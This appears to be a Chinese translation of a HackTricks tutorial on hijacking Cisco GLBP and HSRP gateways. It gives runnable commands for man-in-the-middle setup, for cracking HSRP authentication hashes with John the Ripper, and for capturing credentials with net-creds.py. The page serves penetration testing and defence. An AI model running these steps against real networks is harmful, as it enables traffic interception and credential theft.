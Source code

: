 # GLBP & HSRP 攻击

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** 上**关注我们。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>


## FHRP 劫持概述

### 理解 FHRP
首跳冗余协议（FHRP）是一种协议套件，通过将多个物理路由器组合成单个虚拟实体来确保网络的弹性。这增强了负载分配和容错能力。思科系统引入了两个著名的 FHRP 协议：GLBP 和 HSRP。

### GLBP 协议详情
由思科开发的 GLBP（网关负载平衡协议）在 TCP/IP 协议栈之上运行，使用 UDP 在端口 3222 上进行通信。GLBP 组内的路由器每 3 秒发送一次“hello”数据包。如果 10 秒内没有收到来自路由器的这些数据包，则表示路由器故障。但是，这些计时器设置是可调整的。

### GLBP 运行和负载平衡
GLBP 通过使用单个虚拟 IP 和各种虚拟 MAC 地址在多个路由器之间实现负载共享。组内的每个路由器都参与转发数据包。GLBP 通过提供真正的负载平衡与 HSRP/VRRP 不同，包括：

- **主机相关性：** 确保主机接收相同的 AVF MAC 地址，保留 NAT 配置。
- **轮询：** 默认模式，AVF MAC 地址交替分配。
- **基于权重的轮询：** 根据预定义的“权重”指标平衡负载。

### GLBP 域角色和术语
- **AVG（活动虚拟网关）：** 主要路由器，向其他路由器分配 MAC 地址。
- **AVF（活动虚拟转发器）：** 处理网络流量的路由器。
- **GLBP 优先级：** 决定 AVG，默认为 100，范围为 1 到 255。
- **GLBP 权重：** 指示路由器的负载级别，可手动调整或通过对象跟踪调整。
- **GLBP 虚拟 IP 地址：** 作为连接设备的默认网关。

GLBP 使用保留的组播地址 224.0.0.102 和 UDP 端口 3222 进行通信。每 3 秒发送一次“hello”数据包，如果在 10 秒内未收到数据包，则将路由器标记为“死亡”。

### GLBP 攻击机制
攻击者可以通过发送优先级值最高（255）的 GLBP 数据包成为主要路由器。这可能导致 DoS 或 MITM 攻击，允许拦截或重定向流量。

### 使用 Loki 执行 GLBP 攻击
[Loki](https://github.com/raizo62/loki_on_kali) 可以通过注入优先级和权重设置为 255 的数据包执行 GLBP 攻击。攻击前的步骤包括使用诸如 Wireshark 等工具收集虚拟 IP 地址、认证存在和路由器优先级值等信息。

攻击步骤：
1. 切换到混杂模式并启用 IP 转发。
2. 确定目标路由器并检索其 IP。
3. 生成一个恶意的 Gratuitous ARP。
4. 注入一个恶意的 GLBP 数据包，冒充 AVG。
5. 为攻击者的网络接口分配一个次要 IP 地址，镜像 GLBP 虚拟 IP。
6. 实施 SNAT 以完全可见流量。
7. 调整路由以确保通过原始 AVG 路由器继续访问互联网。

通过遵循这些步骤，攻击者将自己定位为“中间人”，能够拦截和分析网络流量，包括未加密或敏感数据。

以下是执行所需命令片段的演示：
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### 使用net-creds.py或类似工具来监视和拦截流量，以捕获和分析通过受损网络流动的数据。

### HSRP劫持的被动解释及命令详细信息

#### HSRP（热备份路由器/冗余协议）概述
HSRP是思科专有协议，旨在实现网络网关冗余。它允许将多个物理路由器配置为单个逻辑单元，共享一个IP地址。这个逻辑单元由主路由器管理，负责流量导向。与GLBP不同，GLBP使用优先级和权重等指标进行负载平衡，HSRP依赖于单个活动路由器进行流量管理。

#### HSRP中的角色和术语
- **HSRP活动路由器**：充当网关的设备，管理流量流向。
- **HSRP备用路由器**：备用路由器，准备在活动路由器故障时接管。
- **HSRP组**：一组路由器合作形成一个弹性的虚拟路由器。
- **HSRP MAC地址**：分配给HSRP设置中逻辑路由器的虚拟MAC地址。
- **HSRP虚拟IP地址**：HSRP组的虚拟IP地址，充当连接设备的默认网关。

#### HSRP版本
HSRP有两个版本，HSRPv1和HSRPv2，主要区别在于组容量、多播IP使用和虚拟MAC地址结构。该协议利用特定的多播IP地址进行服务信息交换，每3秒发送一次Hello数据包。如果在10秒内未收到数据包，则假定路由器处于非活动状态。

#### HSRP攻击机制
HSRP攻击涉及通过注入最大优先级值强制接管活动路由器的角色。这可能导致中间人攻击。攻击前的基本步骤包括收集有关HSRP设置的数据，可以使用Wireshark进行流量分析。

#### 绕过HSRP身份验证的步骤
1. 将包含HSRP数据的网络流量保存为.pcap文件。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. 使用hsrp2john.py从.pcap文件中提取MD5哈希。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. 使用John the Ripper破解MD5哈希。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**使用Loki执行HSRP注入**

1. 启动Loki以识别HSRP广告。
2. 将网络接口设置为混杂模式并启用IP转发。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. 使用Loki针对特定路由器，输入破解的HSRP密码，并执行必要的配置以冒充活动路由器。
4. 获得活动路由器角色后，配置您的网络接口和IP表以拦截合法流量。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 修改路由表以通过先前的活动路由器路由流量。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 使用net-creds.py或类似实用程序从拦截的流量中捕获凭据。
```shell
sudo python2 net-creds.py -i eth0
```

执行这些步骤将使攻击者能够拦截和操纵流量，类似于GLBP劫持的过程。这突显了像HSRP这样的冗余协议的漏洞以及对强大安全措施的需求。
